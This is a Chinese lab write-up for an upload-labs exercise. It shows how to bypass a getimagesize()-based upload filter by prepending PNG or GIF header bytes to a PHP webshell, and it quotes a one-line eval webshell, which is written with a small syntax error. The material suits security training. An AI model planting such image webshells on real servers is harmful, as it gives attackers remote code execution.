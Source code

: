 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过制作图片马绕过

## 1.打开第十四关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)



## 3.分析代码

##### ![](./img/3.png)

##### 本Pass主要利用isImage函数来判断上传的文件是不是图片类型(不仅仅是三种常规类型图片)。来看看isImage函数干了什么事情：

##### 首先利用getimagesize函数检测文件类型。

##### 然后利用image_type_to_extension函数对getimagesize函数返回的数组索引2(Array[2])作后缀名转换，最后用stripos函数检测image_type_to_extension函数返回的结果是否在变量$types白名单中。

##### 所以关键就是getimagesize函数，它的工作原理是什么，什么样的文件会让它返回的数组的索引 2 为"白名单数字"，怎么样去绕过它？

##### 所以getimagesize函数不是绝对安全的，关键看怎么去使用它。对于本Pass只检测getimagesize($file)[2]的值，其绕过方式和Pass-13相似。只是文件头多保留几位罢了。

##### JPG:对于JPG文件保留的文件头标识就多一些了(10行左右)，可以直接在JPG文件都加php木马，但是会有如下错误。

##### PNG:89 50 4e 47 0d 0a 1a 0a(可以抓包修改hex，也可以找个真png，用编辑器打开，将文件头标识后面的内容替换成php木马就行)

##### GIF:GIF89a(直接在文件头加入，也可以抓包修改hex：47 49 46 38 39 61)

## 4.我们可以本地制作一个图片马绕过

![](./img/4.png)

![](./img/5.png)

